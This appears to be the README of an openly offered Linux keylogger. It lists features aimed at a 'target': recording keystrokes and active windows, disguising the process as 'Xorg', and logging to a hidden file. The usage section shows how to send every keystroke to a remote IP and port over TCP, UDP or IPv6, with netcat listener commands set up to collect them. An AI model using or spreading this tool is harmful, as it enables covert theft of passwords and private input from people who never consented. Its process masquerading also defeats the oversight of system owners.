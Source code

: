 # Simple_Local&Remote_Keylogger

##DESCRIPTION

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- Keys are mapped on US keyboard.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##USAGE:
```
#./slrk [OPTIONS]
```
##OPTIONS
-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>

##EXAMPLE

[TCP]
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888

[UDP]
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888

[IPv6]
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
	
